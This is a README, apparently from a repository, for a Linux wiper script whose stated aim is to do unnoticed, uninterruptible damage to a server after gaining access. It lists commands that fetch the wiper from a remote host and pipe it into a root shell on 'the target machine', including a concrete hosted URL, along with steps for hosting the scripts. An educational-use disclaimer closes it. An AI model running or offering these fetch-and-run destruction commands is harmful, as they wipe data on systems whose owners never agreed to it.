# Why?

I was wondering whether I could do a whole lot of damage in a short span of time after gaining access to a linux server, that could go unnoticed and be unstoppable using CTRL-C.

# Usage

You can either:

- Host it on your own (see [Deployment](#deployment) ) and then execute `curl {YOUR_URL} | sudo sh` on the target machine.
- Execute `curl https://curl-sh-wipe-my-pc.tomasdiblik.cz/ | sudo sh` OR `curl https://curl-sh-wipe-my-pc.tomasdiblik.cz/basic.sh | sudo sh` on the target machine (if I see ANY usage for illegal purposes, I'm taking it down. Use in educational environments only please.)
- Just copy these scripts onto your target, and run `chmod +x advanced.sh && sudo ./advanced.sh` lol

# Deployment

1. Configure your server (I use nginx, so you can use the nginx-config provided), this step depends a lot on you tho ... If you're unable to do this, you probably also lack the knowledge required to understand the commands executed and I would advise you against hosting these scripts on your own.
2. - If you're on windows: `dos2unix.exe advanced.sh basic.sh`
   - and then: `scp -P {SSH_PORT} basic.sh advanced.sh LICENSE {USER}@{SERVER_IP}:{FULL_PATH_EXAMPLE_/www/curl-sh-wipe-my-pc}`
3. Go onto your target system and type `curl {YOUR_URL} | sudo sh`

# Legal notice:

The code provided is for educational purposes only and should not be used for any malicious or illegal activities. Any unauthorized use of this code is strictly prohibited and violators will be held liable for their actions. The code is intended to be used solely for the purpose of learning and understanding vulnerabilities and should not be executed on any systems without proper authorization and oversight. The author of this code takes no responsibility for any actions taken by any party using this code and is not liable for any damages or harm caused as a result of its use.
